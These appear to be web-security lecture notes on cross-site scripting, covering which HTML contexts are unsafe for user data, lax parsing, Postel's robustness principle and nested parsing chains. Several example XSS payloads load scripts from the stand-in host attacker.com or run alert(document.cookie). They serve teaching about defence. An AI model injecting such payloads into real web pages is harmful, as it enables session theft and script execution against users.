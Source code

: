 ```HTML
<script>USER_DATA_HERE</script>
```
```HTML
<!-- USER_DATA_HERE --> //Comments even as parser errors in few edge cases
```
```HTML
<USER_DATA_HERE href='/'>Link</a>
```
```HTML
<div USER_DATA_HERE='some value'></div>
```
```HTML
<style>USER_DATA_HERE</style>
```
- HTML parsers are extremely lax about what they accept
- Here is some "valid" HTML:

```HTML
<script/XSS src='https://attacker.com/xss.js'></script>
```

```HTML
<body onload!#$%&()*~+-_.,:;?@[/|\]^`=alert(document.cookie)>
```

```HTML
<img """><script>alert(document.cookie)</script>">
```

```HTML
<iframe src=https://attacker.com/path/to/some/file/xss.js <
```

It is designed based on Roubustness principle

### Robustness principle
- "Be conservative in what you send, be liberal in what you accept"
- Also known as "Postel's law" who wrote in TCP spec:
    - "TCP implementations should follow a general principle of robustness: be conservative in what you do, be liberal in what you accept from others."
- This is actually terrible for security!
    - "A flaw can become entrenched as a de facto standard. Any implementation of the protocol is required to replicate the aberrant behavior, or it is not interoperable. This is both a consequence of applying the robustness principle, and a product of a natural reluctance to avoid fatal error conditions. Ensuring interoperability in this environment is often referred to as aiming to be 'bug for bug compatible'." - Martin Thomson

### Where can escaped user data safely be used?
- HTML element bodies
- HTML attributes (surrounded by quotes)
- JavaScript strings

### Beware nesting and parsing chains!
```HTML
<div onclick="setTimeout('doStuff(\'USER_DATA_HERE\')', 1000)"></div>
```
- Note there are three rounds of parsing!
    - HTML parser extracts the onclick attribute and adds it to DOM2.
    - Later, when button is clicked, JavaScript parser extracts setTimeout() syntax and executes it3.
    - One second later, the string passed as first argument to setTimeout() is parsed as JavaScript and executed
